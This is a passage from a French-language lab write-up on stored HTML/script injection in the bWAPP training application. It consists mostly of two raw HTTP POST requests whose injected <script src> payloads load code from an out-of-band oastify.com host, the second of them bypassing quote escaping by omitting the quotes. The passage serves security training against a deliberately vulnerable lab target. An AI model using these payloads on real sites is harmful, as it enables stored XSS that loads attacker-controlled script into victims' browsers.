 L'injection de script distant est plus gênant puisque les guillemets simples et doubles vont être échappés :&#x20;

```http
POST /bWAPP/htmli_stored.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 124
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_stored.php
Cookie: PHPSESSID=dd072f586873ddbc6e0a10ae3229b270; security_level=1
Connection: close

entry=%3Cscript+src%3D%22http%3A%2F%2F7z7mvt95gvlpro9vtdbb8mq4xv3lra.oastify.com%22%3E%3C%2Fscript%3E&blog=submit&entry_add=
```

![](<../../../../../.gitbook/assets/image (7) (1).png>)

Le contournement est assez simple ici puisqu'il suffit d'omettre les guillemets autour de l'URL distante :&#x20;

```http
POST /bWAPP/htmli_stored.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 118
Pragma: no-cache
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_stored.php
Cookie: PHPSESSID=dd072f586873ddbc6e0a10ae3229b270; security_level=1
Connection: close

entry=%3Cscript+src%3Dhttp%3A%2F%2Fpha4dbrnyd3796rdbvttq48mfdl49t.oastify.com%3E%3C%2Fscript%3E&blog=submit&entry_add=
```
